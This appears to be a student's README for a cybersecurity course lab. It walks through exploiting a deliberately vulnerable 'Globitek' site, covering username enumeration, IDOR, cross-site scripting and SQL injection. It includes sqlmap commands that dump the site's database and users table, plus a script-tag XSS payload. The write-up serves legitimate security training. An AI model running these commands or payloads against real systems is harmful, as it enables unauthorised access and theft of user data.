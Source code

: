# Cybersecurity_week8

## Six possible vulnerabilities:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [ ] Cross-Site Request Forgery
- [ ] Session Hijacking/Fixation
## Vulnerabilities I found and exploited:
- [x] Username Enumeration
- [x] Insecure Direct Object Reference
- [x] SQL Injection
- [x] Cross-Site Scripting
- [x] Bonus Objective 1:
  * Build on the SQL Injection vulnerbility. Experiment to see what other kinds of information one can get the database to reveal.
  
## **Blue** version of Globitek website 
**Vulnerability 1:** SQL Injection
  * **Steps:**
    1. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. Use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
## **Green** version of Globitek website 
**Vulnerability 1:** Username Enumeration
  * **Steps:**
    1. Type in username
    2. Type in a random password
    3. Teep submitting the wrong password multiple times until the "failed logins" message shows up
  * **GIF walkthrough:**
    * ![usernameenum](https://user-images.githubusercontent.com/31838335/39099064-ef761ec8-4641-11e8-8094-556642464fc3.gif)
    <br></br>
**Vulnerability 2:** Cross-Site Scripting
  * **Steps:**
    1. Go to Contact
    2. Submit a feedback with malicious code: <script>alert('xss')</script>
  * **GIF walkthrough:**
    * ![xss](https://user-images.githubusercontent.com/31838335/39099083-3bf6dbde-4642-11e8-9e3f-1f8d585dd0d9.gif)

## **Red** version of Globitek website 
**Vulnerability 1:** Insecure Direct Object Reference
  * **Steps:**
    1. Go to https://35.184.168.159/blue/public/salesperson.php?id=1
    2. Change the value of id to 10 or 11 would reveal information that should not be revealed
  * **GIF walkthrough:**
    * ![idor](https://user-images.githubusercontent.com/31838335/39099090-56e74dac-4642-11e8-84f7-111537caefb6.gif)

## **Bonus Objective 1:**
  * **Steps:**
    1. Since we know the name of the database we can use sqlmap to retrieve all information in the database
    2. Sample code: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue'
  * **GIF walkthrough:**
    * ![bonus](https://user-images.githubusercontent.com/31838335/39099232-0afc4502-4645-11e8-90de-94fda8d999ae.gif)
